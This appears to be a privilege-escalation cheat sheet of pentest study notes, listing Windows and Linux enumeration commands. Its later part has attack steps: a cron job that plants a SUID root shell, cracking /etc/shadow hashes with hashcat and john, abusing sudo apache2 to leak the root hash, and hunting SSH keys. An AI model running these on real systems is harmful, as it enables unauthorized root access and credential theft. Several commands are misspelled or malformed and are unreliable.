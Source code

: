 # Privilege-Escalation
###Manual Enumeration
1. processes-services :

```bash
#Windows 
tasklist /svc

#Linux
ps aux
```

1. About-version :

```bash
#Windows 
systeminfo | findstr /c:”os name” /c:”os  version” /c:”systemtype”

#Linux
uname -a || cat /etc/issue
```

1. Enum-Host_Name :

```bash
#Windows & Linux
 
hostname
```

1. Enum-Users :

```bash
#Windows
whoami || net user || net user <username> 

#Linux
whoami ||id|| cat /etc/passwd 
```

### Network Enum

1. Open Ports :

```bash
#Windows
ipconfig /all || route print||netstat -ano    

#Linux
ip a || ifconfig ss -anp || cat /sbin/route || netstat -anp
```

### Firewall Enum

- Linux
`iptables` ⇒However, depending on how the firewall is configured, we may be able to glean information about the rules as a standard user || `/etc/iptables`
- Windows
`netsh advfirewall show currentprofile
netsh advfirewall firewall show rule name=all`
### Enumerating scheduled tasks

Scheduled task :

---

```bash
1. nano test.sh
2. chmod u+s /bin/sh
3. chmod +x test.sh
4. nano /etc/crontab
- * * * * * root /home/luka/test.sh
1. $ /bin/sh -p
2. $ whoami
```

---

in windows

```bash
schtasks /query /fo LIST /v     
```

---

### Enum installed applications and patch levels

for Windows :

```bash
- wmic product get name, version, vendor
- wmic qfe get capion, discription, hosfixid, nstalledon
```

for Linux

```bash
dpkg -l
```

---

### Enum readable/writable files and directories

- for windows
- exec tool like ⇒ accesschk

```bash
c:\Tools\privilege_escalation\SysinternalsSuite>accesschk.exe -uws "Everyone" "C:\Prog ram Files”
```

- powershell script :

```powershell
>Get-ChildItem "C:\Program Files" -R ecurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
```

- for linux

```bash
find / -writable -type d 2>/dev/null
```

---

### unmounted disks



- Windows

```powershell
mountvol
```

- Linux

```bash
mount
```

---

### Device Drivers and kernal modules



- Windows

```powershell
drivequery.exe /v /fe csv | convertfrom-csv | select-object ‘display name’, ‘start mode’, path 
```

- Linux

```bash
1. lsmod
2. modinfo <modulename>
```

====================================

## Automation

===============

Runas escalation via ⇒ CVE-2019-1388

===============

# Linux privesc

exploits:

1. kernel exploits: ⇒ vuls in version ... EX.( dirty c0w)
2. stored passwords (config files)
3. stored passwords (History) .. /.bash_history
4. weak permission ⇒ /etc/shadow —> unshadow passwd shadow > output.txt —→ crack

$hashcat -m 1800 output.txt rockyou.txt -O

1. ssh keys —→ find / -name id_rsa 2> /dev/null
2. shell escaping ⇒sudo -l 
3. sudo abusing intended functionality

⇒sudo apache2 -f /etc/shadow ⇒root hash ⇒ echo ‘[ root hash ]’ > x.txt

john —wordlist=/user/share/wordlist/nmap.lst x.txt

1. sudo (LD_PRELOAD)
